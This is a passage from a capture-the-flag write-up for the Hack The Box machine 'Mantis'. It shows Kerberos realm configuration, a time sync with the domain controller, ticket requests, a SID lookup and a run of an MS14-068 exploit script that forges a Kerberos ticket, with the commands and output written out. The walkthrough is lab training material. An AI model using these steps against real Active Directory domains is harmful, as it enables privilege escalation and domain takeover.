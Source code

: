 ```
	default_domain = HTB.LOCAL 
	}
[domain_realm]
	.domain.internal = HTB.LOCAL
	domain.internal = HTB.LOCAL

```

Let's sync our time with the DC.

```
rdate -n 10.10.10.52
```

So now we are all set to start our exploitation process. First we generate our ticket with the `impacket` tools.

```
root@kali:~/htb/mantis/impacket-master/impacket-master/impacket/examples# kinit james
Password for james@HTB.LOCAL: 
root@kali:~/htb/mantis/impacket-master/impacket-master/impacket/examples# klist
Ticket cache: FILE:/tmp/krb5cc_0
Default principal: james@HTB.LOCAL

Valid starting       Expires              Service principal
02/09/2018 15:29:07  02/10/2018 01:29:07  krbtgt/HTB.LOCAL@HTB.LOCAL
renew until 02/10/2018 15:28:37
```

Next we will need to get james' SID.

```
root@kali:~/htb/mantis/impacket-master/impacket-master/impacket/examples# rpcclient -U james mantis
Enter WORKGROUP\james's password: 
rpcclient $> lookupnames james
james S-1-5-21-4220043660-4019079961-2895681657-1103 (User: 1)
```

Now we can run our MS14-068 python exploit script.

```
root@kali:~/htb/mantis/pykek-master# python ms14-068.py -u james@HTB.LOCAL -s S-1-5-21-4220043660-4019079961-2895681657-1103 -d mantis
Password: 
  [+] Building AS-REQ for mantis... Done!
  [+] Sending AS-REQ to mantis... Done!
  [+] Receiving AS-REP from mantis... Done!
  [+] Parsing AS-REP from mantis... Done!
  [+] Building TGS-REQ for mantis... Done!
  [+] Sending TGS-REQ to mantis... Done!
  [+] Receiving TGS-REP from mantis... Done!
  [+] Parsing TGS-REP from mantis... Done!
  [+] Creating ccache file 'TGT_james@HTB.LOCAL.ccache'... Done!

```
